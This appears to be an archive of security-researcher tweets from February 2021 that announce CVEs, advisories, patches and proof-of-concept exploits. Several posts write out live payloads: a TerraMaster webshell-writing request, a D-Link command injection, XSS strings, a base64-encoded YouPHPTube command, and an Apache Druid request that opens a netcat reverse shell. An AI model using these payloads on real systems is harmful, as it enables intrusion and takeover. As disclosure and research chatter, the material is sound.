# cyber_advising
**https://twitter.com/cyber_advising/status/1365986722736189442 _at 2021-02-28, 11:26:28_**
<blockquote>
CVE-2021-3378 | FortiLogger - Unauthenticated Arbitrary File Upload (Metasploit)
https://t.co/Ifj2vS9sYP https://t.co/vbI5JkETq6
</blockquote>

* https://github.com/erberkan/fortilogger_arbitrary_fileupload

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>132</code></td>
</tr></table>

---

# nathanqthai
**https://twitter.com/nathanqthai/status/1365861435549622273 _at 2021-02-28, 03:08:37_**
<blockquote>
Tags in @GreyNoiseIO for VMWare vCenter CVE-2021-21972:

GNQL:
tags:"VMware vCenter RCE Attempt" OR tags:"VMWare vCenter RCE Vuln Check"

https://t.co/rN2fFExdKf https://t.co/jEC1B4q3P3
</blockquote>

* https://viz.greynoise.io/query/?gnql=tags%3A%22VMware%20vCenter%20RCE%20Attempt%22%20OR%20tags%3A%22VMWare%20vCenter%20RCE%20Vuln%20Check%22

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>42</code></td>
</tr></table>

---

# TheDFIRReport
**https://twitter.com/TheDFIRReport/status/1365784607241736201 _at 2021-02-27, 22:03:20_**
<blockquote>
@r0wdy_ Great question(s) @r0wdy_!

CVE-2021-21972: vCenter RCE

➡️Java writes the webshell to disk
➡️➡️C:\Program Files\VMware\vCenter Server\jre\bin\java.exe

➡️Java also executes the webshell commands such as whoami (eventId 4688)
➡️➡️cmd.exe /C Whoami https://t.co/UmkSL99u6k
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---

# pdnuclei
**https://twitter.com/pdnuclei/status/1365738329967190016 _at 2021-02-27, 18:59:26_**
<blockquote>
Scanning for VMware vCenter Unauthorized RCE (CVE-2021-21972) using nuclei templates.

#hackwithautomation #appsec https://t.co/3fZA6d5JgM
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>82</code></td>
<td>Favorites: <code>404</code></td>
</tr></table>

---

# osama_hroot
**https://twitter.com/osama_hroot/status/1365586206982082560 _at 2021-02-27, 08:54:57_**
<blockquote>
An unauthorized server-side request forgery (SSRF) vulnerabilities (#CVE-2021-21973) POC https://t.co/odVlMaiwDQ
</blockquote>

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>92</code></td>
<td>Favorites: <code>287</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1365203494869721090 _at 2021-02-26, 07:34:12_**
<blockquote>
CVE-2021-25281 wheel_async unauth access + CVE-2021-25282 salt.wheel.pillar_roots.write directory traversal

https://t.co/USEkRv2XvC

something: https://t.co/qUaPyV4Tc8 https://t.co/9JHsHq594g
</blockquote>

* https://saltproject.io/security_announcements/active-saltstack-cve-release-2021-feb-25/
* https://t.zsxq.com/zF6ybQr

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>148</code></td>
</tr></table>

---

# 80vul
**https://twitter.com/80vul/status/1364886980429979654 _at 2021-02-25, 10:36:29_**
<blockquote>
[Update]  https://t.co/bPnI7q1UoO   VMware_vCenter_UNAuthorized_RCE_CVE-2021-21972 Based on the data of ZoomEye dork: app: "VMware vCenter" in the last year, the vulnerability success rate is: 1551/3998 = 39% https://t.co/IhCm7ZqPnm
</blockquote>

* https://github.com/conjojo/VMware_vCenter_UNAuthorized_RCE_CVE-2021-21972

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---

# tijme
**https://twitter.com/tijme/status/1364693510323134467 _at 2021-02-24, 21:47:42_**
<blockquote>
Remote Code Execution PoC for vCenter CVE-2021-21972.

https://t.co/gAP6Xc4otB
</blockquote>

* https://github.com/horizon3ai/CVE-2021-21972

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>122</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1364625077355110409 _at 2021-02-24, 17:15:46_**
<blockquote>
Since the PoC for the VMware vCenter RCE (CVE-2021-21972) is now readily available, we're publishing our article covering all of the technical details.

Read the article: https://t.co/L3nms8E71o
</blockquote>

* https://swarm.ptsecurity.com/unauth-rce-vmware/

<table><tr>
<td>Quotes: <code>25</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>449</code></td>
<td>Favorites: <code>790</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1364513417118236675 _at 2021-02-24, 09:52:04_**
<blockquote>
CVE-2021-21972 VMware vCenter RCE https://t.co/Utkul4elpm
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>98</code></td>
<td>Favorites: <code>422</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1364283310281785350 _at 2021-02-23, 18:37:42_**
<blockquote>
💥VMware fixed an Unauth RCE in vCenter (CVE-2021-21972) found by our researcher Mikhail Klyuchnikov.

CVSS: 9.8 🔥

Advisory: https://t.co/8ylVdvcUqr https://t.co/9g1gPboaap
</blockquote>

* https://www.vmware.com/security/advisories/VMSA-2021-00002.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>48</code></td>
<td>Replies: <code>21</code></td>
<td>Retweets: <code>410</code></td>
<td>Favorites: <code>962</code></td>
</tr></table>

---

# holme_sec
**https://twitter.com/holme_sec/status/1363900491365838850 _at 2021-02-22, 17:16:31_**
<blockquote>
Got my first CVE!🎉 CVE-2021-24150 - Unauthenticated Full-Read SSRF in a WP plugin

Thanks to @_WPScan_ for handling the disclosure process!

https://t.co/kcU7TqtP8A
</blockquote>

* https://wpscan.com/vulnerability/6bc6023f-a5e7-4665-896c-95afa5b638fb

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>72</code></td>
</tr></table>

---

# _CPResearch_
**https://twitter.com/_CPResearch_/status/1363807562278318081 _at 2021-02-22, 11:07:15_**
<blockquote>
Our researchers found that CVE-2017-0005, a 0-Day attributed to the Chinese APT31, is a replica of an Equation Group 0-Day, that was caught and repurposed by APT31 during 2014, 3 years before the Shadow Brokers leak.
Read the complete story on our blog.
https://t.co/sz3bAxrbYJ
</blockquote>

* https://research.checkpoint.com/2021/the-story-of-jian

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>84</code></td>
<td>Favorites: <code>151</code></td>
</tr></table>

---

# hjy79425575
**https://twitter.com/hjy79425575/status/1362658998185435138 _at 2021-02-19, 07:03:16_**
<blockquote>
analysis of windows defender 0day CVE-2021-1647 by threatbook, worth learning.

https://t.co/H9YqAHSYbJ
</blockquote>

* https://www.anquanke.com/post/id/231625

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>82</code></td>
<td>Favorites: <code>201</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1362510132807139336 _at 2021-02-18, 21:11:44_**
<blockquote>
WINDOWS KERNEL ZERO-DAY EXPLOIT (CVE-2021-1732) IS USED BY BITTER APT IN TARGETED ATTACK
https://t.co/tvDREOpDWS
</blockquote>

* https://ti.dbappsecurity.com.cn/blog/index.php/2021/02/10/windows-kernel-zero-day-exploit-is-used-by-bitter-apt-in-targeted-attack/

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>197</code></td>
<td>Favorites: <code>403</code></td>
</tr></table>

---

# sourceincite
**https://twitter.com/sourceincite/status/1362416728110686212 _at 2021-02-18, 15:00:35_**
<blockquote>
CMS Made Simple Serverside Template Injection Remote Code Execution Exploit 

Combines CVE-2019-9053 found by @sk4pwn and CVE-2021-26120 found by @steventseeley to achieve unauthenticated remote code exection.
Proof of Concept: https://t.co/jsLdkLMsBl
</blockquote>

* https://srcincite.io/pocs/cve-2021-26120.py.txt

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---

# Synacktiv
**https://twitter.com/Synacktiv/status/1361956713155461122 _at 2021-02-17, 08:32:39_**
<blockquote>
No need to worry about vulnerabilities if your API design is dangerous 😬

The GPG signature bypass in CVE-2020-10759 can easily be found in other codebases, such as VMware's Photon OS.

Find more in our latest blogpost by @_lucas_georges_ 

https://t.co/x6Eq8gkedn https://t.co/rrxjyCI1YD
</blockquote>

* https://www.synacktiv.com/publications/gpgme-used-confusion-its-super-effective.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>102</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1361310126985142273 _at 2021-02-15, 13:43:20_**
<blockquote>
VMware fixed a Post-Auth RCE in vSphere Replication (CVE-2021-21976) found by our researcher Egor Dimitrenko.

Advisory: https://t.co/wuKw2mmDfB https://t.co/17TXP0euQ1
</blockquote>

* https://www.vmware.com/security/advisories/VMSA-2021-0001.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>95</code></td>
<td>Favorites: <code>237</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1360538195532730370 _at 2021-02-13, 10:35:58_**
<blockquote>
RCE TerraMaster CVE-2020-28188  
V4.1.30/4.2.06

POC: 
GET /include/makecvs.php?Event=http|echo "&lt;?php echo(passthru(\$_GET['cmd']));?&gt;" &gt;cmd.php|

GET /cmd.php?cmd=cat%20/etc/passwd
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>69</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1360314089780744196 _at 2021-02-12, 19:45:27_**
<blockquote>
Palo Alto PAN-OS vulnerabilities - CVE-2020-2037 #RCE 
https://t.co/WXJj8iDjnj https://t.co/QHSBrUpP2J
</blockquote>

* https://swarm.ptsecurity.com/swarm-of-palo-alto-pan-os-vulnerabilities/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>100</code></td>
<td>Favorites: <code>242</code></td>
</tr></table>

---

# Raj_Samani
**https://twitter.com/Raj_Samani/status/1360143625234100227 _at 2021-02-12, 08:28:05_**
<blockquote>
This is why patching is imperative "majority of flaws (96%) used in #ransomware attacks are years old, having been publicly identified prior to 2019. The oldest, CVE-2007-1036, is a RCE vulnerability first discovered back in 2007" https://t.co/Aia4zYh3TR #malware #cybersecurity
</blockquote>

* https://www.scmagazine.com/home/security-news/ransomware/researchers-identify-223-vulnerabilities-used-in-recent-ransomware-attacks/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>29</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1359927700966825986 _at 2021-02-11, 18:10:04_**
<blockquote>
In case you missed it, SAP this week released 7 new security updates, including a critical RCE #vulnerability [CVE-2021-21477]  in SAP Commerce.

https://t.co/TpBHVEdhY7
</blockquote>

* https://wiki.scn.sap.com/wiki/pages/viewpage.action?pageId=568460543&utm_source=social_share

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>53</code></td>
</tr></table>

---

# Synacktiv
**https://twitter.com/Synacktiv/status/1359887936104374274 _at 2021-02-11, 15:32:04_**
<blockquote>
Looking how to exploit the latest SSTI in YouTrack (CVE-2021-25770)? Our ninja @us3r777 wrote an analysis showing how to get remote code execution using a Freemarker bypass presented at #BHUSA 2020 by @pwntester and @olekmirosh 

https://t.co/HZuOEWTO1H https://t.co/gpTJoPjVd0
</blockquote>

* https://www.synacktiv.com/publications/exploiting-cve-2021-25770-a-server-side-template-injection-in-youtrack.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>84</code></td>
</tr></table>

---

# SentinelOne
**https://twitter.com/SentinelOne/status/1359877485299568641 _at 2021-02-11, 14:50:32_**
<blockquote>
💡 New on #SentinelLabs: Windows Defender has contained an elevation of privilege vulnerability since at least 2009. ( CVE-2021-24092) - Great discovery by @kasifdekel!

https://t.co/UiGqTKNzpd

#cybersecurity #windows #infosec #vulnerability #privilegeescalation
</blockquote>

* https://labs.sentinelone.com/cve-2021-24092-12-years-in-hiding-a-privilege-escalation-vulnerability-in-windows-defender/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>60</code></td>
<td>Favorites: <code>98</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1359769215721439234 _at 2021-02-11, 07:40:18_**
<blockquote>
WINDOWS KERNEL ZERO-DAY EXPLOIT (CVE-2021-1732) IS USED BY BITTER APT IN TARGETED ATTACK
https://t.co/aEO4vfpdIC https://t.co/FSTN1HgvKF
</blockquote>

* https://ti.dbappsecurity.com.cn/blog/index.php/2021/02/10/windows-kernel-zero-day-exploit-is-used-by-bitter-apt-in-targeted-attack/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# USCERT_gov
**https://twitter.com/USCERT_gov/status/1359609418669842433 _at 2021-02-10, 21:05:20_**
<blockquote>
Microsoft’s #PatchTuesday update included Phase 2 mitigation of CVE-2020-1472, enabling Domain Controller enforcement mode by default. Learn more at https://t.co/DZ2JcMEm8y. #Cyber #Cybersecurity #InfoSec
</blockquote>

* https://go.usa.gov/xsaMD

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>60</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# frycos
**https://twitter.com/frycos/status/1359602326814797825 _at 2021-02-10, 20:37:09_**
<blockquote>
Remember the @rapid7 CVE-2020-0688 blog showing statistics on Exchange 2007 instances not being affected? After looking at code of 2007 builds I found several patched XXE vulnerablities. The one shown in this PoC was patched in 8.3.327.1, still affecting thousands of servers then https://t.co/umYb6lQXTA
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---

# Synacktiv
**https://twitter.com/Synacktiv/status/1359522245450862592 _at 2021-02-10, 15:18:56_**
<blockquote>
You wana race the iOS kernel? Here is our take on CVE-2021-1782 where @JohnCool__ explains the LPE vulnerability patched in 14.3:

https://t.co/DrJmx0EnaR
</blockquote>

* https://www.synacktiv.com/publications/analysis-and-exploitation-of-the-ios-kernel-vulnerability-cve-2021-1782

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>102</code></td>
<td>Favorites: <code>232</code></td>
</tr></table>

---

# alisaesage
**https://twitter.com/alisaesage/status/1359488164566495232 _at 2021-02-10, 13:03:31_**
<blockquote>
VMware ESXi OpenSLP heap buffer overflow VM escape RCE vuln (CVE-2019-5544) from my Nov.2020 slides. Did anyone publish a deep technical analysis of the exploit yet? https://t.co/OS3WvFT8dX
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>62</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1359450265565335555 _at 2021-02-10, 10:32:55_**
<blockquote>
Apple releases a security patch for 10-year-old #macOS SUDO root privilege escalation #vulnerability, tracked as CVE-2021-3156, and also called "Baron Samedit."

Read details — https://t.co/m5I0aB5kee

#infosec #cybersecurity #technology
</blockquote>

* https://thehackernews.com/2021/02/apple-patches-10-year-old-macos-sudo.html

<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>156</code></td>
<td>Favorites: <code>279</code></td>
</tr></table>

---

# Rayhan0x01
**https://twitter.com/Rayhan0x01/status/1359447514785607687 _at 2021-02-10, 10:21:59_**
<blockquote>
My first ever CVE assigned by a CNA: CVE-2021-21434
Just a simple stored XSS I reported a few months back, but hey feels great to finally have a CVE of my own 🥳 https://t.co/eLMZux1R4U
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>37</code></td>
</tr></table>

---

# jq0904
**https://twitter.com/jq0904/status/1359297158554423297 _at 2021-02-10, 00:24:31_**
<blockquote>
Our team caught a windows kernel zero-day exploit (CVE-2021-1732) which was used in targeted attack: https://t.co/i12vqJ0OyC
</blockquote>

* https://ti.dbappsecurity.com.cn/blog/index.php/2021/02/10/windows-kernel-zero-day-exploit-is-used-by-bitter-apt-in-targeted-attack/

<table><tr>
<td>Quotes: <code>16</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>509</code></td>
<td>Favorites: <code>1292</code></td>
</tr></table>

---

# MsftSecIntel
**https://twitter.com/MsftSecIntel/status/1359246831968919553 _at 2021-02-09, 21:04:32_**
<blockquote>
Microsoft released a set of fixes affecting Windows TCP/IP implementation that include two Critical RCE vulnerabilities (CVE-2021-24074, CVE-2021-24094) and an Important DoS vulnerability (CVE-2021-24086). Read this blog post for more info and guidance: https://t.co/wdCrtGapH4
</blockquote>

* https://msrc-blog.microsoft.com/2021/02/09/multiple-security-updates-affecting-tcp-ip/

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# GossiTheDog
**https://twitter.com/GossiTheDog/status/1359216795140444172 _at 2021-02-09, 19:05:11_**
<blockquote>
I worked on a threat analytics report for Microsoft 365 customers on CVE-2021-1732, a zero day local elevation of privilege vulnerability in Win32k (patch out now). https://t.co/BHx92CVoUC
</blockquote>

* https://security.microsoft.com/threatanalytics3/2d183db2-c0e0-45a8-8125-c9e285edf141/overview

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>62</code></td>
</tr></table>

---

# metr0
**https://twitter.com/metr0/status/1359214923541192704 _at 2021-02-09, 18:57:45_**
<blockquote>
As part of our continued effort to proactively identify vulnerabilities in remote surfaces, MS has patched 3 TCP/IP bugs (CVE-2021-24086, -24094, -24074). This set is a bit more serious than previous ones. Thanks to @piazzt and the entire team for their amazing work.
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>114</code></td>
</tr></table>

---

# GossiTheDog
**https://twitter.com/GossiTheDog/status/1359213869672116230 _at 2021-02-09, 18:53:34_**
<blockquote>
Windows TCP/IP vulnerabilities:

- Internal find at Microsoft
- Not exploited in wild
- Exploit creation for RCE is very difficult
- Pre-patch workaround is deny Source Routing, which is disallowed by default

CVE-2021-24074 CVE-2021-24094 CVE-2021-24086

https://t.co/WJLhzqwRVp
</blockquote>

* https://msrc-blog.microsoft.com/2021/02/09/multiple-security-updates-affecting-tcp-ip/

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>122</code></td>
<td>Favorites: <code>239</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1359212311312035848 _at 2021-02-09, 18:47:22_**
<blockquote>
CVE-2021-24071 is a patch bypass for CVE-2020-17120 “Microsoft SharePoint SPSqlDataSource Information Disclosure Vulnerability”. It allows an attacker to connect back to a rogue MySQL server and leak the web.config file for RCE if the MySQL driver is installed.
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>110</code></td>
</tr></table>

---

# blowdart
**https://twitter.com/blowdart/status/1359205016016326657 _at 2021-02-09, 18:18:23_**
<blockquote>
Patch Tuesday is up. .NET Core gets some updates, so check Microsoft Update, or the VS installer.

Denial of Service : CVE-2021-1721 https://t.co/DAk6jIJ9R6

Remote Code Execution : CVE-2021-24112 https://t.co/7WnIdBiKEB
</blockquote>

* https://github.com/dotnet/announcements/issues/175
* https://github.com/dotnet/announcements/issues/176

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---

# maddiestone
**https://twitter.com/maddiestone/status/1359203868731613185 _at 2021-02-09, 18:13:49_**
<blockquote>
Win32k EoP listed as exploited in-the-wild in today's Patch Tuesday. CVE-2021-1732

Adobe Reader itw 0-day also listed as exploited. CVE-2021-21017

I don't see the Internet Explorer 0-day reported by @vngkv123 in the patch notes which is surprising.
</blockquote>

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1359118509310050305 _at 2021-02-09, 12:34:38_**
<blockquote>
Found XSS Oracle Business Intelligence(CVE-2020-14815)
Thanks for @HackerOn2Wheels 

POC:
/bi-security-login/login.jsp?msi=false&amp;redirect="&gt;&lt;img/src/onerror%3dalert('xss')&gt;

Ref:
https://t.co/ohcvAHKxFg

#bugbounty #bugbountytips  #xss https://t.co/bzNQ6z7lwt
</blockquote>

* https://twitter.com/HackerOn2Wheels/status/1326927875279380480

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1358961456797024263 _at 2021-02-09, 02:10:34_**
<blockquote>
D-Link DSL-2888A AU_2.31_V1.1.47ae55 RCE (CVE-2020-24581)

D-link DSL-2888A is a unified service router of China D-link company

PoC
http:/xxx/cgi-bin/execute_cmd.cgi?timestamp=1589333279490&amp;cmd=uname -a

https://t.co/o1vMXImUg4 https://t.co/1t3of3LUbs
</blockquote>

* https://reconshell.com/cve-2020-24581-d-link-dsl-2888a-remote-command-execution/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1358451170377801731 _at 2021-02-07, 16:22:52_**
<blockquote>
XSS In LinkedIn oncall (CVE-2021-26722)

Poc:
/query/&lt;img src=x onerror=alert('xss')&gt;
Pic:
https://t.co/5O6agyk154 https://t.co/UaQ2TWktGI
</blockquote>

* https://github.com/linkedin/oncall/issues/341

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>140</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1358440787843772417 _at 2021-02-07, 15:41:37_**
<blockquote>
XSS in Jenzabar (CVE-2021-26723)

POC:
/ics?tool=search&amp;query="&gt;&lt;script&gt;alert('xss')&lt;/script&gt;

#XSS https://t.co/YWRVQjP6Dg
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>239</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1358277495716368384 _at 2021-02-07, 04:52:45_**
<blockquote>
CVE-2021-25646 Apache Druid Remote Code Execution.

analysis: https://t.co/DvKXfPbe8i

https://t.co/UI3pE9Wy5E
https://t.co/qh2apDPIVS https://t.co/ENPzZBM21e
</blockquote>

* https://mp.weixin.qq.com/s/McAoLfyf_tgFIfGTAoRCiw
* https://t.zsxq.com/j2bIYZV
* https://t.zsxq.com/e6AAauV

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>105</code></td>
</tr></table>

---

# mubix
**https://twitter.com/mubix/status/1358125270503407619 _at 2021-02-06, 18:47:51_**
<blockquote>
Awesome analysis of SolarWinds Orion Platform Unauthenticated RCE (CVE-2021-25274) - https://t.co/2sSztmfpJZ regarding the @SpiderLabs blog post: https://t.co/umlV1glaZO
</blockquote>

* https://attackerkb.com/topics/GuXRxDl2UG/solarwinds-orion-platform-unauthenticated-rce-cve-2021-25274#rapid7-analysis
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/full-system-control-with-new-solarwinds-orion-based-and-serv-u-ftp-vulnerabilities/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---

# chompie1337
**https://twitter.com/chompie1337/status/1357753038451183620 _at 2021-02-05, 18:08:44_**
<blockquote>
learned a ton about userland heap exploitation in Windows + DNS protocol writing an RCE exploit for #SigRed CVE-2020-1350. detailed technical writeup + PoC coming soon (sans rickroll 😇) https://t.co/BetRkRiUfj
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>19</code></td>
<td>Retweets: <code>223</code></td>
<td>Favorites: <code>965</code></td>
</tr></table>

---

# _ForrestOrr
**https://twitter.com/_ForrestOrr/status/1357694266894675970 _at 2021-02-05, 14:15:12_**
<blockquote>
I'm proud to say I completed my first relatively modern UAF exploit today. A 32-bit re-creation of CVE-2020-0674 for IE 8-11 32-bit. It bypasses DEP, ASLR and EMET 5.5 mitigations. A future blog post will explore it in depth https://t.co/8XUnk91vZa
</blockquote>

* https://github.com/forrest-orr/ExploitDev/blob/master/Exploits/Re-creations/Forrest_Orr_CVE-2020-0674_32bit.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>61</code></td>
<td>Favorites: <code>226</code></td>
</tr></table>

---

# vict0ni
**https://twitter.com/vict0ni/status/1357621927112769538 _at 2021-02-05, 09:27:45_**
<blockquote>
Got CVE-2021-26710 and CVE-2021-26711. I'm so excited!

A XSS in Redwood Report2Web v4.3.4.5 and v4.5.3 and frame injection in v4.3.4.5

https://t.co/pLFVCkeBQE
https://t.co/0tKu2xVURJ
</blockquote>

* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26711
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26710

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1357546718821142528 _at 2021-02-05, 04:28:54_**
<blockquote>
YouPHPTube Encoder(CVE-2019-5127)

POC:
[1] GET /objects/getImage.php?base64Url=YGVjaG8gVEVTVCBSQ0UgPiB0ZXNzLnR4dGA=&amp;format=png

[2] GET /objects/tess.txt

Base64 Encode:
YGVjaG8gVEVTVCBSQ0UgPiB0ZXNzLnR4dGA=

`echo TEST RCE &gt; tess.txt` https://t.co/405TCHrIVe
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>206</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1357509755544080386 _at 2021-02-05, 02:02:01_**
<blockquote>
Apache Druid JavaScript RCE (CVE-2021-25646)

[PoC]
POST /druid/indexer/v1/sampler HTTP/1.1
...
...
 {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('nc 192.168.1.10 5555 -e /bin/sh')}"

https://t.co/WEwHLan7TD https://t.co/zublpQiYfR
</blockquote>

* https://gist.github.com/FanqXu/36c5e0070fd8e0b6646993b4e386a6b1

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>107</code></td>
<td>Favorites: <code>278</code></td>
</tr></table>

---

# maddiestone
